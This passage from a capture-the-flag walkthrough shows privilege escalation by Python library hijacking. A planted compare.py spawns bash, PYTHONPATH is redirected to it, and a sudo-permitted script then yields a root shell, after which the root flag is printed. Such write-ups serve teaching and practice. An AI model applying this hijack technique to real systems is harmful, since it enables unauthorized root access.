 The sciprt is in read-only mode:

~~~
$ ls -l /opt/development/test_module.py
-rw-r--r-- 1 root root 93 Jan 15 18:58 /opt/development/test_module.py
~~~

Here is the code:

```python
$ cat /opt/development/test_module.py
#!/usr/bin/env python3

from compare import *

print(compare.Str('hello', 'hello', 'hello'))
```

## Python library hijacking

We can hijack the import by creating our own `compare` module, and inject the path of this module in the `PYTHONPATH` environment variable:

~~~
$ cat > compare.py << EOF
> import os
> os.system('/bin/bash')
> EOF
$ chmod +x compare.py
$ export PYTHONPATH=/home/wes
$ sudo /usr/bin/python3 /opt/development/test_module.py
root@ubuntu-xenial:~# id
uid=0(root) gid=0(root) groups=0(root)
~~~

## Root flag

Awesome! Now, let's get the root flag:

~~~
root@ubuntu-xenial:~# cd /root
root@ubuntu-xenial:/root# ls -la
total 24
drwx------  3 root root 4096 Jan 15 18:58 .
drwxr-xr-x 25 root root 4096 Apr 30 05:28 ..
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root  305 Jan 15 18:58 root.txt
drwx------  2 root root 4096 Jan 15 18:56 .ssh
root@ubuntu-xenial:/root# cat root.txt 
JPC{665b7f2e59cf44763e5a7f070b081b0a}

Also huge shoutout to Westar for the OSINT idea
i wouldn't have used it if it wasnt for him.
and also thank you to Wes and Optional for all the help while developing

You can find some of their work here:
https://github.com/WesVleuten
https://github.com/optionalCTF
~~~

Root flag: `JPC{665b7f2e59cf44763e5a7f070b081b0a}`
